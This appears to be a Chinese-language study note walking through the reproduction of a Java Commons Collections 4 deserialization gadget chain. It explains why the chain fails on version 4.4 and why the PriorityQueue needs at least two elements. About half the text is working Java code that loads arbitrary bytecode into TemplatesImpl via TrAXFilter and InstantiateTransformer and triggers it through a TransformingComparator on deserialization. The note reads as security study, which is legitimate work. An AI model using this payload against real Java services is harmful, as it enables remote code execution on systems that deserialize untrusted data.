有一个`PriorityQueue`类

根据调用链先尝试序列化,报错

![image-20220316001101815](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220316001101815.png)

找到原因是`InstantiateTransformer`类在commons-collection4.4版本中取消了对Serializeable接口的继承,让其无法反序列化

还是先把cc版本切换为4.0跟着复现把.....

按照一步步添加进去进行反序列化,发现有个问题,就是size必须大于2,因为`heapify`进行了无符号位右移是否大于0的判断

![image-20220316003358028](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220316003358028.png)

```java
public static void main(String[] args) throws Exception {

        TemplatesImpl templates=new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"aaa");
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code= Files.readAllBytes(Paths.get("H:\\java\\classTest\\MyClass.class"));
        byte[][] codes={code};
        bytecodes.set(templates,codes);
        
        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());
        
        Transformer[] transformers= new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),

                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})

        };
        Transformer Chainedtransform = new ChainedTransformer<>(transformers);
        TransformingComparator transformingComparator = new TransformingComparator<>(Chainedtransform);
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(2);
        SerializeTest.serialize(priorityQueue);
        UnSerializeTest.unserialize("C:\\Temp\\test.bin");

    }
```

在add的时候会调用到`offer`--->`siftUp`--->`siftUpUsingComparator`从而调用到`compare`方法

![image-20220316003551221](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220316003551221.png)
